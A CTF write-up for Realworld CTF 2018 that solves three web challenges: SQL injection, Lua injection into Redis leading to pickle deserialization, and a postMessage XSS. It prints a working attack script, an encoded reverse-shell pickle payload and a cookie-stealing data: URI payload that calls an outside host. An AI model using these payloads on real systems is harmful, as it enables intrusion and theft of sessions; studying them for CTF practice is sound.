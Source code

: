 ```yaml
---
title:  Realworld CTF 2018
date: 2018-08-05
tags:
  - XSS
  - RCE
  - Lua
categories:
  - Writeups
excerpt: "advertisement, dotfree, bookhub"
---
```



# Advertisement

It gives us a link `https://realworldctf.com/contest/5b5bc66832a7ca002f39a26b` to let us hack the platform.

Just try some simple SQL injection payloads, we can get the flag:`https://realworldctf.com/contest/5b5bc66832a7ca002f39a26b"or"1"=1`

# Web

## Bookhub

Let's see the key code snippet:
```python
{% raw %}
@login_required
@user_blueprint.route('/admin/system/refresh_session/', methods=['POST'])
def refresh_session():
    """
    delete all session except the logined user

    :return: json
    """

    status = 'success'
    sessionid = flask.session.sid
    prefix = app.config['SESSION_KEY_PREFIX']

    if flask.request.form.get('submit', None) == '1':
        try:
            rds.eval(rf'''
            local function has_value (tab, val)
                for index, value in ipairs(tab) do
                    if value == val then
                        return true
                    end
                end
                
                return false
            end
                
            local inputs = {{ "{prefix}{sessionid}" }}
            local sessions = redis.call("keys", "{prefix}*")
                
            for index, sid in ipairs(sessions) do
                if not has_value(inputs, sid) then
                    redis.call("del", sid)
                end
            end
            ''', 0)
        except redis.exceptions.ResponseError as e:
            app.logger.exception(e)
            status = 'fail'

    return flask.jsonify(dict(status=status))
```

And the:
```python
@user_blueprint.route('/login/', methods=['GET', 'POST'])
def login():
    form = LoginForm(data=flask.request.data)
    if form.validate_on_submit():
        user = User.query.filter_by(username=form.username.data).first()
        login_user(user, remember=form.remember_me.data)

        return flask.redirect(flask.url_for('book.admin'))

    return flask.render_template('login.html', form=form){% endraw %}
```

In the `refresh_session` function, we get an `rds.eval` which evals lua code and also control `prefix` via `app.config['SESSION_KEY_PREFIX']`.  `} payload {` will lead to code execution.

To bypass CSRF protection, we need to create a session by giving `bookhub-session`(which is our payload). The attack script is:
```python
import requests
import re

# Debug
DEBUG_URL = "http://18.213.16.123:5000"
# DEBUG_URL = "http://127.0.0.1:5000"
DEBUG_LOGIN = DEBUG_URL + "/login/"
DEBUG_REFRESH = DEBUG_URL + "/admin/system/refresh_session/"

def log(s):
    print(f"[*] {s}")

def create_csrf_token(session_id):
    cookies = { "bookhub-session" : session_id }
    response = requests.get(DEBUG_LOGIN, cookies=cookies)

    csrf_token = re.findall('name="csrf_token" type="hidden" value="(.+?)">', response.text)[0]
    return csrf_token


def refresh_session(session_id, csrf_token):
    headers = { "Content-Type" : "application/x-www-form-urlencoded" }
    cookies = { "bookhub-session" : session_id }
    data = { "csrf_token" : csrf_token, "submit" : 1 }

    response = requests.post(DEBUG_REFRESH, headers=headers, cookies=cookies, data=data)
    return response.text

# Create CSRF token
lua_payload = '"} and redis.call("BGSAVE") and {"a'
csrf_token = create_csrf_token(lua_payload)
log(f"CSRF Token : {csrf_token}")

# LUA code exec
response = refresh_session(lua_payload, csrf_token)
print(response)
```
. Just edit variable `lua_payload` to run yours.

Now, we need to leak the flag. First, we should keep our session via following payload: `'abc",redis.call("set","bookhub:session:abc",YOUR_SESSION),"'`

Later, we found that the code uses *pickle* to unserialize, which allows us to RCE.

Basically, we can use:
```
Y3Bvc2l4CnN5c3RlbQpwMQooUydweXRob24gLWMgXCdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgidXJsLndlLmNvbnRyb2xsIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7XCcnCnAyCnRScDMKLg
```
as YOUR_SESSION, then we can get shell.

## Dot Free

Source code:
```html
<script>
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
        var el = null;
        if (typeof doc.createElementNS != "undefined") el = doc.createElementNS("http://www.w3.org/1999/xhtml", def[0]);
        else if (typeof doc.createElement != "undefined") el = doc.createElement(def[0]);

        if (!el) return false;

        for (var i = 1; i
        < def.length; i++) el.setAttribute(def[i++], def[i]);
        if (parent) parent.appendChild(el);
        return el;
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
</script>
<body>
<div class="body"></div>
<div class="grad"></div>
<div class="header">
    <div>Dot <span>Free</span></div>

</div>
<form action="/Recieve/" class="login" method="POST">
    <input type="text" placeholder="URL" name="url"><br><br><br><br>
    <input type="submit" value="Submit">
</form>
```

Basically, we need to attach `?` plus a json at the end of path, like this:
```
http://server/?{"iframe":{"value":"your uri"}}
```

Then, our JSON will be passed to:
```javascript
function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
```

My exploit only cares the lls function, so let's talk about that. Just do not add an `iframe` type in your JSON, you can trigger the lls:
```javascript
function lls(src) {
    var el = document.createElement('script');
    if (el) {
        el.setAttribute('type', 'text/javascript');
        el.src = src;
        document.body.appendChild(el);
    }
}
```

The function will attach our `value` as script tag's src. Because of limitation:
```javascript
if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) 
```

We cannot give `http://` or `https://` to execute arbitrary code.

However, we can use `data:text/html` protocol to bypass. With base64 encryption, we can use `.` to call function.

Final payload:
```
http://13.57.104.34/?{"iframe":{"value":"data:text/html;base64,dmFyIG9SZXEgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKb1JlcS5vcGVuKCJHRVQiLCAiaHR0cDovL3J1Zi5leGV5ZS5pby8iK2RvY3VtZW50LmNvb2tpZSk7Cm9SZXEuc2VuZCgpOw"}}
```

The encrypted data is the same as:
```javascript
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://yourserver/"+document.cookie);
oReq.send();
```

Then you can get flag by viewing http request log.